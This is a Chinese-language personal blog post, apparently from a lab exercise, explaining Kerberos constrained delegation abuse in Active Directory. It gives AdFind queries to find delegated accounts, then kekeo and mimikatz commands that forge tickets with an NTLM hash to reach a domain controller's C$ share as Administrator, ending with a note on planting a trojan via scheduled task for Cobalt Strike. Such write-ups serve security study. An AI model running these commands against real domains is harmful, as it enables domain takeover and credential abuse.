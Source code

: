 ```yaml
---
layout:     post
title:      约束委派
subtitle:   约束委派的利用(大佬勿喷🙈🙊🙉)
date:       2022-12-13
author:     Orang
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


>on the way。
>
>感谢[迪总](http://xiaodi8.com)教学
>
>[我的博客](https://hujieuse.github.io/)

# 前言

## 域委派

将域用户的权限委派给服务账号，委派之后，服务账号就可以以域用户的身份去做域用户能够做的事。

注意：能够被委派的用户只能是服务账号或者机器账号。

1.机器账户:活动目录中的computers组内的计算机，也被称为机器账号。

2.服务账号：域内用户的一种类型，是服务器运行服务时所用的账号，将服务运行起来加入域内，域用户通过注册SPN也能成为服务账号。

# 约束委派

原理：

由于非约束委派的不安全性，微软在windows server 2003中引入了约束委派，对Kerberos协议进行了拓展，引入了SService for User to Self (S4U2Self)和 Service for User to Proxy (S4U2proxy)。

利用场景：

攻击者控制了服务A的账号，并且服务A配置了到域控的CIFS服务的约束性委派。则攻击者可以先使用S4u2seflt申请域管用户（administrator）访问A服务的ST1，然后使用S4u2Proxy以administrator身份访问域控的CIFS服务，即相当于控制了域控。

## 设置约束委派

机器账户的约束委派设置

![image-20221213205158396](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205158396.png)

服务账户的约束委派设置

mary是普通域用户 默认是没有委派设置的

![image-20221213205233818](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205233818.png)

给域用户注册SPN：

在域控上执行setspn -U -A priv/test mary。

![image-20221213205354490](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205354490.png)

然后查看mary用户

![image-20221213205422743](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205422743.png)

已经有了委派属性然后设置为约束委派。

查询机器主机配置约束委派

```
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![image-20221213211007750](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211007750.png)

查询服务账户

```
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![image-20221213211046766](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211046766.png)

## 利用方式

利用条件：

一台机器权限

获取配置了约束委派的服务账户或者机器账户的凭据(明文密码 hash都可)

利用方式：

1、获取用户的票据

```
kekeo "tgt::ask /user:dbadmin /domain:god.org /NTLM:518b98ad4178a53695dc997aa02d455c /ticket:administrator.kirbi" "exit"
```

![image-20221213211222541](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211222541.png)

2、利用用户票据获取域控票据

```
kekeo "tgs::s4u /tgt:TGT_dbadmin@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa2010cn-god.god.org" "exit"
```

![image-20221213211506054](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211506054.png)

3、导入票据到内存

```
mimikatz kerberos::ptt TGS_Administrator@god.org@GOD.ORG_cifs~owa2010cn-god.god.org@GOD.ORG.kirbi
```

![image-20221213211817920](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211817920.png)

4、连接通讯域控

```
dir \\owa2010cn-god.god.org\c$
```

![image-20221213212957176](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213212957176.png)

ps: 中间好几次导入票据仍然拒绝连接，重启就好了，没找到原因。

5、上线cs：

copy🐎，然后schtasks 创建计划任务，就可以实现cs上线。

## 参考

[https://xz.aliyun.com/t/11555#toc-16](https://xz.aliyun.com/t/11555#toc-16)

[https://cloud.tencent.com/developer/article/1899592](https://cloud.tencent.com/developer/article/1899592)
